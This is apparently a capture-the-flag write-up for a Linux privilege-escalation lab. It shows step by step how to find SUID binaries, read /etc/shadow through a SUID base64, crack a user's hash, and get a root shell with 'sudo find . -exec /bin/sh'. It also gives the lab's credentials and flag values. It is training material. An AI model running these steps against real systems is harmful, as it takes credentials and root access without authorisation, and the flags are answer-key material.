 1. Login to the system using provided user credentials (leonard - Penny123)
2. Look for commands we can run as root without being root by typing below command. We get to know that leonard is not in sudoers list.
```
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for leonard: 
Sorry, user leonard may not run sudo on ip-10-201-83-26.
```
3. We looked for suid permissions so we know which commands we can run as root.
 ```
 find / -type f -perm  -4000 -ls 2>/dev/null
   ```
4. We found out that the base64 and passwd command has suid permissions. So we first ran below command to identify is there any other user than leonard and user missy was identified. Then, we ran base64 command to look for user missy's password hash in /etc/shadow file for that we perform below commands. 
```
cat /etc/passwd
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```
5. We got required password hash and using hashes.com we retrieved password form it. (missy - password1) {Horizontal privilege escalation}
6. Then we search for flag using find command.
```
find / -name flag* 2>/dev/null
```
7. Then we executed the file using below command.
```
cat /home/missy/Documents/flag1.txt
THM-42828719920544
```
8. Once again we searched for commands we can run as root without being root by typing 'sudo -l'.
```
sudo -l
Matching Defaults entries for missy on ip-10-201-83-26:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-201-83-26:
    (ALL) NOPASSWD: /usr/bin/find
```
9. We got to know that user missy can run find command as root. So using GTFobins we run below command and received root access.
```
sudo find . -exec /bin/sh \; -quit
sh-4.2# whoami
root
```
10. Then again we searched for flag using find command and executed it.
```
find / -name flag* 2>/dev/null
cat /home/rootflag/flag2.txt
THM-168824782390238
```
